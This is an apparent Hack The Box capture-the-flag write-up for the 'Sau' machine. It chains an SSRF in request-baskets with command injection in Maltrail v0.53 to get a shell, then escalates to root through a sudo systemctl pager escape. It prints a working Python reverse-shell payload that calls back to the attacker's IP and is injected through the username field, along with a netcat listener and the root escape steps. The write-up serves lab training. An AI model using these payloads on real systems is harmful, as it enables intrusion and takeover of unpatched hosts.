 # Sau

## Enumeration(nmap):
Initial: `nmap -vv -sS -oN nmap/init -A 10.129.30.180`
Found open 
	- 22 ssh
	- 80 http
	- 55555 unknown

---

HTTP Service on port 80 is unreachable so i tried to access
the service running on 55555 to see if it's a website and success.
The services hosted is an http request inspector
![/web of 55555](/screenshots/home-page-req-bask.png)

## Research
Before trying anything else i saw at that the footer contains 
the software and the version used `Powered by request-baskets | Version: 1.2.1`
so i just searched to see if any public CVE's exist. I went 
to the github repo of [request baskets](https://github.com/darklynx/request-baskets)
and straight up to the issues and sure enough a [CVE](https://github.com/entr0pie/CVE-2023-27163/tree/main) was present

![issues](/screenshots/git-issues-req-bask.png)
So an SSRF vulnerability (CVE-2023-27163) is present and since i saw open port 80
but cannot access it, i asume it blocks external ips
or just has a whitelist so i attempt to take a sneek
peek 

## Exploitation
![first use of cve](/screenshots/ssrf-for-home-of-80.png)
![home page of 80](/screenshots/local-home-page-80.png)

The service running on port 80 is Powered by Maltrail (v0.53) 
which after searching has [Unauthenticated OS Command Injection Maltrail <= v0.54 (Did not recieve a CVE)](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)
After locating a (POC)[https://github.com/spookier/Maltrail-v0.53-Exploit] written in python
i only took the curl_cmd function cause in order to get rce i have 
to chain the two vulnerabilities i found and i only want the data 
porivided by the function to use as url parameters,
in a sense this is trial and error cause i don't actualy 
know if the service can take the data as url parameters
so this was done blindly but let's attempt it

```py
import base64

def main():
	my_ip = "10.10.14.87"
	my_port = 4444
	target_url = "http://127.0.0.1/login"
	payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("{my_ip}",{my_port}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
	encoded_payload = base64.b64encode(payload.encode()).decode()
	parameters = f"username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`"
	print(parameters)

if __name__ == "__main__":
	main()
```

## RCE:
![payload generation](/screenshots/payload-gen.png)

After i generated the payload i went to [CyberChef](https://gchq.github.io/CyberChef/) and URL-Encoded it
![payload html encoding](/screenshots/cyberchef.png)

Before executing the exploit i start a netcat listener on port 4444
```sh
nc -l 4444
```
And.....
![rce](/screenshots/rce.png)


Now i'm able to execute command on the remote machine 
within the terminal so i go and retrieve the flag.
```sh
➜  Sau nc -l 4444
$ id
id
uid=1001(puma) gid=1001(puma) groups=1001(puma)
$
$ ls -la /home/puma
ls -la /home/puma
total 32
drwxr-xr-x 4 puma puma 4096 Jun 19  2023 .
drwxr-xr-x 3 root root 4096 Apr 15  2023 ..
lrwxrwxrwx 1 root root    9 Apr 14  2023 .bash_history -> /dev/null
-rw-r--r-- 1 puma puma  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 puma puma 3771 Feb 25  2020 .bashrc
drwx------ 2 puma puma 4096 Apr 15  2023 .cache
drwx------ 3 puma puma 4096 Apr 15  2023 .gnupg
-rw-r--r-- 1 puma puma  807 Feb 25  2020 .profile
lrwxrwxrwx 1 puma puma    9 Apr 15  2023 .viminfo -> /dev/null
lrwxrwxrwx 1 puma puma    9 Apr 15  2023 .wget-hsts -> /dev/null
-rw-r----- 1 root puma   33 Dec 30 18:11 user.txt
$ cat /home/puma/user.txt
cat /home/puma/user.txt
HTB{Us3R_FL4G_R3dUct3d}
$
```

In order to enumerate and attempt to escalate my privileges
i first want to have a full tty shell

## [Full TTY:](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)
```sh
python3 -c 'import pty; pty.spawn("/bin/bash")'

(inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```

![sudo list](/screenshots/sudo.png)
```sh
puma@sau:/opt/maltrail$ sudo -l
sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
puma@sau:/opt/maltrail$
```

Okay so i didn't have to do much digging the hard part is over
now when executing this command you will be prompted to an environment 
like vim/less so the only thing i have to do is `!` execute `sh` and since
i run the command with sudo the resulting shell will have root user privileges.

![getting-root](/screenshots/priv-esc.png) 
```sh
# cd /root
cd /root
# ls
ls
go  root.txt
# cat root.txt
cat root.txt
HTB{R00t_FL4G_R3dUct3d}
#
```


# Resources:
https://github.com/darklynx/request-baskets/issues/91
https://github.com/entr0pie/CVE-2023-27163/tree/main
https://github.com/spookier/Maltrail-v0.53-Exploit
https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/
